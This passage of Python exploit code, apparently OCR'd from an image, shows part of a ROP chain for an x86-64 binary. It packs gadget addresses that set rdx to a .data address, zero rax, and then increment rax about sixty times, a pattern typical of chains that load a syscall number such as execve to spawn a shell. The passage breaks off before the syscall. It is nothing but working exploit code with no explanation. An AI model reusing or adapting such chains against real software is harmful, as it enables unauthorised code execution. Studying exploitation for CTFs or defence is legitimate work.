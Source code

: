 ```
p += pack('<Q', 0x00000000006b90e8)  # @ .data + 8
p += pack('<Q', 0x0000000000449505)  # pop rdx ; ret
p += pack('<Q', 0x00000000006b90e8)  # @ .data + 8
p += pack('<Q', 0x0000000000444840)  # xor rax, rax ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
p += pack('<Q', 0x00000000004746b0)  # add rax, 1 ; ret
```